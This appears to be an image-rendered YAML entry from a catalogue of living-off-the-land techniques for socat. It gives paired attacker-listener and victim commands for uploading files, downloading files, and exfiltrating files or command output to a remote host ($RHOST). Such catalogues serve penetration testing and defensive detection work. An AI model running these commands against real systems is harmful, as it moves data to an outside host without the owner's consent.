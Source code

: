 ```yaml
---
functions:
  file-upload:
    - description: Run `socat -u tcp-listen:4444,reuseaddr open:$NFILE,creat` on the attacker box to collect the file.
      code: |
        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
  file-download:
    - description: Run `socat -u file:$LFILE tcp-listen:4444,reuseaddr` on the attacker box to send the file.
      code: |
        socat -u tcp-connect:$RHOST:$RPORT open:$NFILE,creat
  data-exfiltration:
    - description: Run `socat -u TCP-LISTEN:4444,fork STDOUT` on the attacker box to output the data or `socat -u TCP-LISTEN:4444,fork CREATE:$NFILE` to save it directly into a file.
      code: |
        cat $LFILE <($CMD) | socat -u STDIN TCP:$RHOST:4444
---
```

